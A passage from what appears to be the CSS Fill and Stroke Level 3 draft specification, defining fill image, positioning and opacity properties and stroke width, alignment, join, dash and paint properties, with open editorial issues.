> **Note:** This is required to match the legacy behavior of SVG’s `fill` property, which built in a "fallback color" to the single-layer image syntax. In CSS this is better achieved with the `image()` function, which makes fallback explicit.

> **Issue:** `fill-color` should be layerized, like `stroke-color`, so the two sets of properties are maximally consistent.

SVG user agents must include the following rules (or their equivalent) in their user agent style sheet:

```css
@namespace svg "http://www.w3.org/2000/svg";
svg:svg:root, *|*:not(svg|*) > svg:svg {
  fill-color: black;
}
```

##### 3.3.2. Fill Image Sources: the `fill-image` property {#fill-stroke-3:fill-image}

| Field | Value |
| --- | --- |
| Name: | **fill-image** |
| [Value:](#css-values-4:value-defs) | `<paint>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified, with any `<image>` computed |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| Media: | visual |

This property sets the fill images of an element. Images are drawn with the first specified one on top (closest to the user) and each subsequent image behind the previous one. Values are interpreted identically to `background-image`, mutatis mutandi.

##### 3.3.3. Fill Positioning Area: the `fill-origin` property {#fill-stroke-3:fill-origin}

| Field | Value |
| --- | --- |
| Name: | **fill-origin** |
| [Value:](#css-values-4:value-defs) | match-parent \| fill-box \| stroke-box \| content-box \| padding-box \| border-box |
| [Initial:](#css-cascade-6:initial-values) | match-parent |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies the coordinate system of the fill, setting the **fill positioning area**. Values have the following meanings:

****match-parent****

: Use the same fill positioning area as the parent. If it has no parent, use the initial containing block.

****content-box** **padding-box** **border-box****

: Use the box’s own content-box/padding-box/border-box as the fill positioning area. For SVG shapes, `content-box` and `padding-box` are treated as `fill-box`, while `border-box` is treated as `stroke-box`.

****fill-box****

: For SVG shapes or SVG text, use the object bounding box of the element. For CSS boxes, use the bounding box of the text glyph outlines of the element and all in-flow or floated descendants.

****stroke-box****

: For SVG shapes or SVG text, use the stroke bounding box of the element. For CSS boxes, use the bounding box of the text glyph stroke outlines of the element and all in-flow or floated descendants.

The SVG UA style sheet is amended to include the following rules:

```css
svg:svg {
  fill-origin: content-box;
}
```

The **fill painting area** is infinite in size. When painting, the fill color/images are intersected with the glyph areas of the affected text, or the fill geometry of the affected SVG shape.

> **Issue:** SVG paint servers carry around their own originator information in *Units attributes, but maybe SVGWG can add a new value that makes them pay attention to the CSS originator. Alternately, we can add an `auto` initial value here, which defers to the paint server’s information if you’re referring to one, and otherwise is `match-parent`.

##### 3.3.4. Positioning Fill Images: the `fill-position` property {#fill-stroke-3:fill-position}

| Field | Value |
| --- | --- |
| Name: | **fill-position** |
| [Value:](#css-values-4:value-defs) | `<position>`# |
| [Initial:](#css-cascade-6:initial-values) | 0% 0% |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | A list, each item consisting of: a pair of offsets (horizontal and vertical) from the top left origin each given as a combination of an absolute length and a percentage |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| Media: | visual |

If fill images have been specified, this property specifies their initial position (after any resizing) within their corresponding fill positioning area. Values are interpreted identically to `background-position`, mutatis mutandi.

##### 3.3.5. Sizing Fill Images: the `fill-size` property {#fill-stroke-3:fill-size}

| Field | Value |
| --- | --- |
| Name: | **fill-size** |
| [Value:](#css-values-4:value-defs) | `<bg-size>`# |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified, but with lengths made absolute and omitted `auto` keywords filled in |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| Media: | visual |

Specifies the size of the fill images. Values are interpreted identically to `background-size`, mutatis mutandi.

##### 3.3.6. Tiling Fill Images: the `fill-repeat` property {#fill-stroke-3:fill-repeat}

| Field | Value |
| --- | --- |
| Name: | **fill-repeat** |
| [Value:](#css-values-4:value-defs) | `<repeat-style>`# |
| [Initial:](#css-cascade-6:initial-values) | repeat |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | A list, each item consisting of: two keywords, one per dimension |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

Specifies how fill images are tiled after they have been sized and positioned. Values are interpreted identically to `background-repeat`, mutatis mutandi.

##### 3.3.7. Fill Shorthand: the `fill` property {#fill-stroke-3:fill-shorthand}

| Field | Value |
| --- | --- |
| Name: | **fill** |
| [Value:](#css-values-4:value-defs) | `<'background'>` with modifications |
| [Initial:](#css-cascade-6:initial-values) | See individual properties |
| [Applies to:](#css-cascade-5:applies-to) | See individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | See individual properties |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | See individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | See individual properties |
| Media: | visual |

This property is a shorthand that sets all of the fill painting properties—​`fill-color`, `fill-image`, `fill-origin`, `fill-position`, `fill-size`, and `fill-repeat`—​in one declaration. Omitted values are set to their initial value, except that an omitted `fill-color` is set to `transparent`, and an omitted `fill-origin` is set to `fill-box`.

> **Issue:** What should be the default value for fill-origin when set via this shorthand? content-box or fill-box? fill-box works better for fancy/overflowing fonts like Zapfino, but it’s much more expensive to calculate than content-box.

> **Issue:** SVG has special color fallback syntax—​a color following an image is only drawn if the image fails. This conflicts with our desire to match `background`, because `fill: url(#foo) red;` does *not* fill with red and then draw #foo. Compromise: fill-color is a fallback color, but both `none` and invalid images trigger the fallback. So `fill: url(#foo) red;` will only draw the red if there is no #foo (like SVG), but `fill: url(#foo), red` (equivalent to `none red` on the last layer) will draw the red *and* the #foo (like `background`).

#### 3.4. Fill Transparency {#fill-stroke-3:fill-filter}

##### 3.4.1. Fill Opacity: the `fill-opacity` property {#fill-stroke-3:fill-opacity}

| Field | Value |
| --- | --- |
| Name: | **fill-opacity** |
| [Value:](#css-values-4:value-defs) | `<'opacity'>` |
| [Initial:](#css-cascade-6:initial-values) | 1 |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the specified value converted to a `<number>`, clamped to the range [0,1] |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

The `fill-opacity` property specifies the opacity of the painting operation used to fill the element. As with `opacity`, a value of `0` or `0%` means fully transparent, and a value of `1` or `100%` means fully opaque.

### 4. Strokes (Outlines) {#fill-stroke-3:strokes}

A **stroke** draws a border along the outlines of an SVG shape or the glyphs of an inline (or SVG text) box. The resulting area can be filled similar to the fill area. Strokes can be a solid color (`stroke-color`) and/or an image pattern (`stroke-image` etc.).

**It is strongly recommended to use the `stroke` shorthand when setting strokes. The individual [painting longhands](#fill-stroke-3:stroke-paint) should only be used when it’s needed to alter one individual aspect.**

By default, strokes are drawn on top of fills; the drawing order is controlled by the `paint-order` property.

#### 4.1. Layering Multiple Strokes {#fill-stroke-3:stroke-layering}

The stroke of a box can have multiple layers. The number of layers is determined by the larger of the number of comma-separated values for the `stroke-image` property and the number of comma-separated values for the `stroke-color` property. A value of `none` still creates a layer.

If the two properties have different lengths, the values are aligned from the end, with missing front values for `stroke-color` defaulting to `transparent`, and missing front values for `stroke-image` defaulting to `none`.

List-valued properties interact exactly as for background images, defined in [CSS Backgrounds 3 § 2.1 Layering Multiple Background Images](#css-backgrounds-4:layering).

> **Issue:** `stroke-color` must front-fill with `transparent`, otherwise multiple image layers will randomly fall back to solid colors if the image fails to load. Do we want to have strokes and fills front-fill with initial values in general, or should the rest of these properties repeat their lists as they do for backgrounds?

#### 4.2. Stroke Geometry {#fill-stroke-3:stroke-geometry}

> **Issue:** We currently layerize the stroke paint props, and `stroke-width`, per SVGWG resolution. Should we layerize the other geometry properties? They have similar use-cases, albeit somewhat more niche, and consistency in API is important. Worth the implementation/testing effort? Hard case: `stroke-dasharray`, because it has "commas anywhere lol" syntax.

##### 4.2.1. Stroke Thickness: the `stroke-width` property {#fill-stroke-3:stroke-width}

| Field | Value |
| --- | --- |
| Name: | **stroke-width** |
| [Value:](#css-values-4:value-defs) | [ `<length-percentage>` \| `<line-width>` ]# |
| [Initial:](#css-cascade-6:initial-values) | 1px |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | relative to the scaled viewport size |
| [Computed value:](#css-cascade-6:computed) | the absolute length, or percentage |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

This property specifies the width of the strokes on the outline. A zero value causes no stroke to be painted for that layer. Negative values are invalid.

The **scaled viewport size** is the geometric mean of the viewport width and height.

##### 4.2.2. Stroke Positioning: the `stroke-align` property {#fill-stroke-3:stroke-align}

| Field | Value |
| --- | --- |
| Name: | **stroke-align** |
| [Value:](#css-values-4:value-defs) | center \| inset \| outset |
| [Initial:](#css-cascade-6:initial-values) | center |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property allows the author to align a stroke along the outline.

****center****

: The stroke for each subpath is centered on the outline.

****inset****

: The stroke for each subpath lies on the “inside” of the outline (into the fill area).

  The `stroke-linejoin` property must be ignored.

  > **Issue:** Why is `stroke-linejoin` ignored? It’s still needed for interior corners.

****outset****

: The stroke for each subpath lies on the “outside” of the outline (outside the fill area).

> **Issue:** Text is easy, as are simple closed, non-self-intersecting paths, but the other categories exist and need good definitions.
>
> How does this apply to open path segments? One suggestion is to alias `outset` to `left` and `inset` to `right` for open paths. How are end caps handled?
>
> 
>
> 1. Stroke with `stroke-align` `center` value.
> 2. Fill region.
> 3. Stroke with `stroke-align` `inset` value per spec (? stroke only paints inside fill region).
> 4. Stroke with `stroke-align` `outset` value (implemented by blocking out fill region).
> 5. Stroke with `stroke-align` `inset` value, alternative interpretation.
> 6. Stroke with `stroke-align` `outset` value per spec (?).
> 7. Stroke with `stroke-align` alternative `left` value; pink shows round line-cap.
>
> How does this apply to paths with loops? Is the region inside the red circle in the below figure part of the stroked (as shown)? Are internal edges stroked if the fill rule is `nonzero`; if so how? (Shown without stroking below.)
>
> 
>
> - Top row: Normal stroke. Stroke left. Stroke right.
> - Middle row: Fill rule `nonzero`, no stroke. Stroke outside. Stroke inside.
> - Bottom row: Fill rule `evenodd`, no stroke. Stroke outside. Stroke inside.
>
> How are dashes handled? Are they based on original path?
>
> 
>
> 1. Normal dash pattern.
> 2. Dash pattern based on dash pattern or original path. Note light-gray region which is from inside dash part (simply using clipping path does not yield proper result).
> 3. Dash pattern based on center of offset path. Light gray represents dash pattern based on center of inset path.

##### 4.2.3. Stroke End Shapes: the `stroke-linecap` property {#fill-stroke-3:stroke-linecap}

| Field | Value |
| --- | --- |
| Name: | **stroke-linecap** |
| [Value:](#css-values-4:value-defs) | butt \| round \| square |
| [Initial:](#css-cascade-6:initial-values) | butt |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

`stroke-linecap` specifies the shape to be used at the end of open subpaths (such as the segments of a dashed stroke, or an unclosed `path` element) when they are stroked. The possible values are:

****butt****

: The stroke for each subpath does not extend beyond its two endpoints. (A zero length subpath will therefore not have any stroke.)

****round****

: At each end of each subpath, the stroke is extended by a half circle with a radius equal to half the stroke width. (The stroke for a zero-length subpath is a full circle centered at the subpath’s point.)

****square****

: At the end of each subpath, the stroke is extended by a rectangle with the same width as the stroke width and whose length is half of the stroke width. (The stroke for a zero-length subpath is a square with side length equal to the stroke width, centered at the subpath’s point, and oriented such that two of its sides are parallel to the effective tangent at that subpath’s point. See [§ 4.6 Computing the Shape of the Stroke](#fill-stroke-3:path-notes) for details on how to determine the tangent at a zero-length subpath.)

  > **Issue:** Adding a rectangle to the end of dashes on a curved outline looks bad. It should just extend the dash by `stroke-width`/2, following the outline.


The three types of line caps.

See the definition of the cap shape below for a more precise description of the shape a line cap will have.

##### 4.2.4. Stroke Corner Shapes: the `stroke-linejoin` property {#fill-stroke-3:stroke-linejoin}

| Field | Value |
| --- | --- |
| Name: | **stroke-linejoin** |
| [Value:](#css-values-4:value-defs) | [ crop \| arcs \| miter ] \|\| [ bevel \| round \| fallback ] |
| [Initial:](#css-cascade-6:initial-values) | miter |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

`stroke-linejoin` specifies the shape to be used at the corners of paths or basic shapes when they are stroked. It has two parts: `[ crop | arcs | miter ]` specifies whether or not, and how, to extend the corner of the stroke; `[ bevel | round | fallback ]` specifies how to render the "cap" of the corner when it’s limited in length by `stroke-miterlimit`.

****crop****

: The stroke extends the minimal amount past the corner necessary to form a convex corner.

  This acts identically to `miter`, but forces `stroke-miterlimit` to behave as if it had its minimum value of `1`.

****miter****

: A sharp corner is used to join path segments. The corner is formed by extending the outer edges of the stroke at the tangents of the path segments until they intersect.

****arcs****

: An arcs corner is used to join path segments. The arcs shape is formed by extending the outer edges of the stroke at the join point with arcs that have the same curvature as the outer edges at the join point.

****bevel****

: The corner is cropped at the `stroke-miterlimit` by the perpendicular to its diagonal.

****round****

: The corner is cropped as for `bevel`, and a filled arc tangent to the truncated stroke edges is appended to round the corner.

****fallback****

: When the `stroke-miterlimit` is exceeded, this behaves as if `crop bevel` were specified.

  > **Issue:** Can we just remove `fallback`? It’s a stupid value, useful only because we didn’t have the clip-at-miterlimit behavior in SVG1. Question is if people are mostly just *accidentally* getting the bevel behavior right now, and would be okay with their joins extending up to the miterlimit and only getting the excess corners clipped, or if they actually wanted the discontinuous behavior currently specified.  [The breakpoint is between 29 and 30 degrees.](http://software.hixie.ch/utilities/js/live-dom-viewer/?%3C!DOCTYPE%20html%3E%0A%3Csvg%3E%0A%20%20%3Cpath%20fill%3Dnone%20stroke%3Dblack%20stroke-width%3D10%20d%3D%22M%2010%2010%20h%20100%20l%20-100%2055%22%20%2F%3E%0A%20%20%3Cpath%20fill%3Dnone%20stroke%3Dblack%20stroke-width%3D10%20d%3D%22M%2010%2050%20h%20100%20l%20-100%2056deg%22%20%2F%3E)

If `[ crop | arcs | miter ]` is omitted, it defaults to `crop`. If `[ bevel | round | fallback ]` is omitted, it defaults to `fallback`.


Four types of line joins

A more detailed look at precisely how each type of join is shaped. For each, the dashed white line is the path being stroked, and the black is the stroke itself, before applying the linejoin. The pink area is the additional stroke added at the corner for bevel, round, and miter linejoins.

##### 4.2.5. Stroke Corner Limits: the `stroke-miterlimit` property {#fill-stroke-3:stroke-miterlimit}

| Field | Value |
| --- | --- |
| Name: | **stroke-miterlimit** |
| [Value:](#css-values-4:value-defs) | `<number>` |
| [Initial:](#css-cascade-6:initial-values) | 4 |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | a number |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies the maximum size of a `miter` or `arcs` join when two stroke segments meet at a corner. (The apparent “size” of the join—​the distance between the inner and outer corner—​approaches infinity as the angle decreases.)

This property has no effect when `stroke-align` is `inset`.

Values have the following meanings:

****`<number>`****

: Specifies the limit on the join’s size as a ratio of its **diagonal** to the `stroke-width`. Values less than 1 are invalid (and make the declaration invalid).

  For a `miter` linejoin, the length of the diagonal is calculated from the angle between the two segments as `stroke-width / sin(θ/2)`. The linejoin is clipped perpendicular to the line bisecting the angle between the two path segments.

  For an `arcs` linejoin, the length of the diagonal is calculated along a circular arc that is tangent to the line bisecting the angle between the two segments at the point the two segments intersect and passes through the end point of the join. The linejoin is clipped perpendicular to this arc.

> **Issue:** Should we add angles? The miterlimit number has physical justification, but it’s difficult to understand without experimentation.

##### 4.2.6. Fragmented Strokes: the `stroke-break` property {#fill-stroke-3:stroke-break}

| Field | Value |
| --- | --- |
| Name: | **stroke-break** |
| [Value:](#css-values-4:value-defs) | bounding-box \| slice \| clone |
| [Initial:](#css-cascade-6:initial-values) | bounding-box |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | ? |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies how the geometry of a fragmented box is treated for strokes.

Values have the following meanings: COPY FROM FRAGMENTATION

#### 4.3. Stroke Dashing {#fill-stroke-3:stroke-dashes}

##### 4.3.1. Stroke Dash Patterns: the `stroke-dasharray` property {#fill-stroke-3:stroke-dasharray}

| Field | Value |
| --- | --- |
| Name: | **stroke-dasharray** |
| [Value:](#css-values-4:value-defs) | none \| `<length-percentage>`+# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | relative to the scaled viewport size |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| Media: | visual |

This property controls the pattern of dashes and gaps used to stroke paths.

****none****

: No dashing: the stroke is drawn continuously.

****`<length-percentage>`+#****

: Specifies a dashing pattern to use. Each `<length-percentage>` value represents the length of the next dash or gap (beginning with the first dash and alternating from there) of the stroke. The pattern repeats over the length of the stroke. (If the number of values is odd, the pattern behaves as if it was duplicated to yield an even number of values.) The dashing pattern is reset and begins anew at the start of each subpath.

  Negative values are invalid. If all values are zero, it is treated as `none`.

> **Issue:** SVG allows comma separation. Do we need to allow this in CSS for back-compat? (Please say no.)

> **Issue:** Need a way to specify dash lengths relative to the width of the stroke. (For instance, to do square dashes.)

> **Issue:** Need a way to specify dash lengths relative to the length of the path. (For instance, to do the "self-drawing SVG" thing without script.)


A dashed stroke. The dashing pattern is `20 10`. The red line shows the actual path that is stroked.

##### 4.3.2. Stroke Dash Start Position: the `stroke-dashoffset` property {#fill-stroke-3:stroke-dashoffset}

| Field | Value |
| --- | --- |
| Name: | **stroke-dashoffset** |
| [Value:](#css-values-4:value-defs) | `<length-percentage>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | relative to the scaled viewport size |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| Media: | visual |

This property specifies the distance into the repeated dash pattern to start dashing at the beginning of the path. Values can be negative.


A dashed stroke with a non-zero dash offset. The dashing pattern is `20 10` and the dash offset is `15`. The red line shows the actual path that is stroked.

See [§ 4.6.3 Dash Positions](#fill-stroke-3:algo-dash-positions) for a more precise description of positions along a path that dashes will be placed.

##### 4.3.3. Corner Control: the `stroke-dash-corner` and `stroke-dash-justify` properties {#fill-stroke-3:corner-control}

| Field | Value |
| --- | --- |
| Name: | **stroke-dash-corner** |
| [Value:](#css-values-4:value-defs) | none \| `<length>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value, with lengths made absolute |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value if `<length>`, otherwise discrete |
| Media: | visual |

The `stroke-dash-corner` property controls whether a dash is always painted at the vertices of a stroked shape. The points at which a dash corner is painted include the start and end points of every segment within the shape’s equivalent path.

****none****

: This property has no special effect on dashing: the dashes are positioned/sized continuously along the path.

**`<length>`**

: A dash of the given `<length>` must be painted at each vertex of the shape. For an open shape, the first corner dash is positioned so that it begins at the start of the path, and the last corner dash so that it ends at the end of the path. The other corner dashes of an open shape, and all corner dashes of a closed shape, are positioned so that they are centered on their vertex.

> **Issue:** Should the corner dash at the first and last vertex of an open shape be half the length of the others? Should this be author controllable?

> **Issue:** Should there be a way to specify a padding, so that any dash pattern between the corner dashes does not not run up against them?

> **Issue:** The corner needs to take over the role of the first dash in the dash pattern, so the "interior" of each segment starts and ends with a gap. Automatically skip the first dash in the pattern in each segment?

> **Issue:** Keyword to use the length of the first dash as the corner.

When `stroke-dash-corner` is not `none`, dash patterns (as specified by `stroke-dasharray`) are repeated separately on each path segment, in the space between the segment’s corner dashes.

> **Issue:** Need to define what happens when corner dashes would overlap.

> **Issue:** Should we auto-trigger justification when this property is active? Without it, you’ll get some dumb-looking results by default.


A rectangle painted with a dashed stroke and with corner dashes, set with `stroke-dasharray: 0 8px; stroke-dash-corner: 32px;`.

| Field | Value |
| --- | --- |
| Name: | **stroke-dash-justify** |
| [Value:](#css-values-4:value-defs) | none \| [ stretch \| compress ] \|\| [ dashes \|\| gaps ] |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified value, with lengths made absolute |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `stroke-dash-justify` property specifies whether and how a stroke’s dash pattern will be adjusted so that it is repeated a whole number of times along each of an element’s subpaths.

****none****

: No adjustment of the dash pattern is made: it’s clipped at the end of the subpath with however much progress it made to that point.

****stretch****

: Indicates that when the dash pattern does not fit into a subpath a whole number times, the dashes or gaps (or both) will be lengthened so that it does.

****compress****

: Indicates that when the dash pattern does not fit into a subpath a whole number times, the dashes or gaps (or both) will be shortened so that it does.

****dashes****

: Indicates that when a dash pattern is to be stretched or compressed, the length of the dashes will be adjusted.

****gaps****

: Indicates that when a dash pattern is to be stretched or compressed, the length of the gaps will be adjusted.

If neither `stretch` nor `compress` is specified, it defaults to whichever would result in less adjustment.

If neither `dashes` nor `gaps` is specified, it defaults to ???.

> **Issue:** Default should probably be to adjust the gaps only.

The target length that a dash pattern will be adjusted to depends on the value of the `stroke-dash-corner` property:

- If `stroke-dash-corner` is `none`, then the dash pattern will be adjusted to fit within the length of the subpath a whole number of times.
- If `stroke-dash-corner` has any other value, including a zero length, then the dash pattern will be adjusted differently for each path segment of the subpath such that it fits between the two corner dashes at the ends of the segment a whole number of times.

The adjustment of dash and gap length in a dash pattern is done by scaling the lengths by a factor, which is the number closest to 1 that will result in the dash pattern fitting in the target length a whole number of times. If `stretch` is used, the factor is a number between 1 and 2, while if `compress` is used, the factor is a number between 0 and 1.

If `stretch` is specified, but the dash pattern is longer than the target length, no adjustment is performed.

> **Issue:** Should it center the segment when it’s too long?

If `compress` is specified, but the adjustable parts of the dash pattern can’t be compressed enough to fit the dash pattern into the target length, the compressible parts must be set to zero.

> **Issue:** Do we want to allow control of whether the stroke ends with a dash or with a gap? For a closed path, you probably want a gap at the end, while for an open path, a dash at the end is probably better. Maybe omit control for this, and just do it automatically based on whether the path is closed?


The same dash stroke used on three different paths, adjusted to fit a whole number of times on each.

#### 4.4. Stroke Paint {#fill-stroke-3:stroke-paint}

##### 4.4.1. Stroke Color: the `stroke-color` property {#fill-stroke-3:stroke-color}

| Field | Value |
| --- | --- |
| Name: | **stroke-color** |
| [Value:](#css-values-4:value-defs) | `<color>`# |
| [Initial:](#css-cascade-6:initial-values) | transparent |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the computed color |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

This property sets the stroke colors of an element. Like `stroke-image`, stroke colors are drawn with the first specified one on top (closest to the user) and each subsequent color behind the previous one.

Stroke colors are only drawn if the `stroke-image` on the corresponding layer is `none` or an invalid image. (In other words, each layer draws *either* an image or a color, with images winning if both are specified.)

> **Note:** This is required to match the legacy behavior of SVG’s `stroke` property, which built in a "fallback color" to the single-layer image syntax. In CSS this is better achieved with the `image()` function, which makes fallback explicit.

##### 4.4.2. Stroke Image Sources: the `stroke-image` property {#fill-stroke-3:stroke-image}

| Field | Value |
| --- | --- |
| Name: | **stroke-image** |
| [Value:](#css-values-4:value-defs) | `<paint>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified, with any `<image>` computed |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| Media: | visual |

This property sets the stroke images of an element. Images are drawn with the first specified one on top (closest to the user) and each subsequent image behind the previous one. Values are interpreted identically to `background-image`, mutatis mutandi.

##### 4.4.3. Stroke Positioning Area: the `stroke-origin` property {#fill-stroke-3:stroke-origin}

| Field | Value |
| --- | --- |
| Name: | **stroke-origin** |
| [Value:](#css-values-4:value-defs) | match-parent \| fill-box \| stroke-box \| content-box \| padding-box \| border-box |
| [Initial:](#css-cascade-6:initial-values) | match-parent |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies the coordinate system of the stroke, setting the **stroke positioning area**. Values have the following meanings:

****match-parent****

: Use the same stroke positioning area as the parent. If it has no parent, use the initial containing block.

****content-box** **padding-box** **border-box****

: Use the box’s own content-box/padding-box/border-box as the stroke positioning area. For SVG shapes, `content-box` and `padding-box` are treated as `fill-box`, while `border-box` is treated as `stroke-box`.

****fill-box****

: For SVG shapes or SVG text, use the object bounding box of the element. For CSS boxes, use the bounding box of the text glyph outlines of the element and all in-flow or floated descendants.

****stroke-box****

: For SVG shapes or SVG text, use the stroke bounding box of the element. For CSS boxes, use the bounding box of the text glyph stroke outlines of the element and all in-flow or floated descendants.

The SVG UA style sheet is amended to include the following rules:

```css
svg:svg {
  stroke-origin: content-box;
}
```

The **stroke painting area** is infinite in size. When painting, the stroke color/images are intersected with the glyph strokes of the affected text, or the stroke geometry of the affected SVG shape.

> **Issue:** SVG paint servers carry around their own originator information in *Units attributes, but maybe SVGWG can add a new value that makes them pay attention to the CSS originator. Alternately, we can add an `auto` initial value here, which defers to the paint server’s information if you’re referring to one, and otherwise is `match-parent`.

##### 4.4.4. Positioning Stroke Images: the `stroke-position` property {#fill-stroke-3:stroke-position}

| Field | Value |
| --- | --- |
| Name: | **stroke-position** |
| [Value:](#css-values-4:value-defs) | `<position>`# |
| [Initial:](#css-cascade-6:initial-values) | 0% 0% |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | A list, each item consisting of: a pair of offsets (horizontal and vertical) from the top left origin each given as a combination of an absolute length and a percentage |
